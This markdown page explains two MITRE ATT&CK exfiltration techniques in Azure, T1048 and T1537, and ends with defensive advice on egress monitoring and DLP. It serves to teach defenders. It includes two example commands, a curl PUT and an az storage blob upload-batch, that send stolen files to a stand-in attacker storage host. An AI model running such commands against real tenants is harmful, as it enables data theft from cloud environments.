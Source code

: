 # Exfiltration TA0010

## **Exfiltration Techniques in Azure Environments**

In Microsoft Azure, adversaries use Exfiltration techniques to **transfer stolen data** outside the environment without triggering alarms.\
They might abuse alternative protocols (e.g., HTTPS, DNS tunneling) or transfer data to **attacker-controlled cloud accounts** to evade traditional exfiltration detections.

***

#### 🌐 Exfiltration Over Alternative Protocol

\| MITRE ID | **T1048** |

**Description**:\
Use non-standard or covert communication channels (e.g., HTTPS, DNS tunneling, cloud APIs) to exfiltrate data from Azure without raising alarms typically tuned for direct FTP, SMB, or other legacy protocols.

**Azure Example**:

* Exfiltrate stolen data using HTTPS via Azure Storage SDKs or custom HTTPS clients.
* Send stolen data out through DNS tunneling using compromised Azure VMs.

```bash
bashCopyEditcurl -X PUT https://attackerstorage.blob.core.windows.net/loot/file.txt --data-binary @stolen_data.txt
```

✅ **Result**: Data leaves Azure over trusted protocols (HTTPS), blending with normal traffic.

***

#### ☁️ Transfer Data to Cloud Account

\| MITRE ID | **T1537** |

**Description**:\
Transfer stolen data to an **attacker-controlled** Azure Subscription, AWS account, GCP bucket, or other cloud account.\
This looks like normal cloud-to-cloud traffic and is harder to detect than direct Internet exfiltration.

**Azure Example**:

* Upload collected data to an attacker-controlled Azure Storage Account or AWS S3 bucket:

```bash
bashCopyEditaz storage blob upload-batch --destination https://attackerstorage.blob.core.windows.net/loot --source ./loot
```

✅ **Result**: Data moves from victim Azure Subscription to attacker-controlled cloud infrastructure quietly.

***

## 📊 **Exfiltration Techniques in Azure (MITRE Mapped)**

| Technique/Subtechnique                 | MITRE ID | Azure Example                                                |
| -------------------------------------- | -------- | ------------------------------------------------------------ |
| Exfiltration Over Alternative Protocol | T1048    | Transfer data using HTTPS, DNS tunneling                     |
| Transfer Data to Cloud Account         | T1537    | Upload stolen data to attacker-controlled Azure/AWS accounts |

***

## 🎯 Final Summary

Defending against Exfiltration in Azure focuses on:

* **Monitoring outbound traffic for anomalies (even on HTTPS and cloud APIs)**
* **Detecting unusual storage transfers and uploads**
* **Locking down egress paths and enforcing data loss prevention (DLP) policies**
* **Watching for cross-subscription or cross-tenant data flows**



